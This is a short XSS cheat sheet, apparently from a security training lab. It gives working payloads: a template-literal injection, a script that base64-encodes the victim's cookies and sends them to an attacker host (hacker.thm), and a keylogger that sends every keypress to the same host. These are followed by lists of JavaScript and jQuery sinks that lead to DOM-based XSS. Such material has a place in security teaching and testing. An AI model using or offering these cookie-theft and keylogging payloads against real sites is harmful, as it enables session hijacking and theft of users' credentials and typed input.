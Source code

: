 Use this payload to exploit JavaScript template literals:

```javascript
${alert(document.domain)}
```

## Cookie Stealing

Base64 encode the cookie and send it to the attacker's server:

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

## Key Logger

Use this payload to log keystrokes and send them to the attacker's server:

```html
<script>
document.onkeypress = function(e) { 
  fetch('https://hacker.thm/log?key=' + btoa(e.key)); 
}
</script>
```

## Sinks Leading to DOM-XSS Vulnerabilities

The following JavaScript functions can lead to DOM-based XSS vulnerabilities:

- `document.write()`
- `document.writeln()`
- `document.domain`
- `element.innerHTML`
- `element.outerHTML`
- `element.insertAdjacentHTML`
- `element.onevent`

## jQuery Functions Leading to DOM-XSS

The following jQuery functions can lead to DOM-based XSS vulnerabilities:

- `add()`
- `after()`
- `append()`
- `animate()`
- `insertAfter()`
- `insertBefore()`
- `before()`
- `html()`
- `prepend()`
- `replaceAll()`
- `replaceWith()`
- `wrap()`
- `wrapInner()`
- `wrapAll()`
- `has()`
- `constructor()`
- `init()`
- `index()`
- `jQuery.parseHTML()`
- `$.parseHTML()`
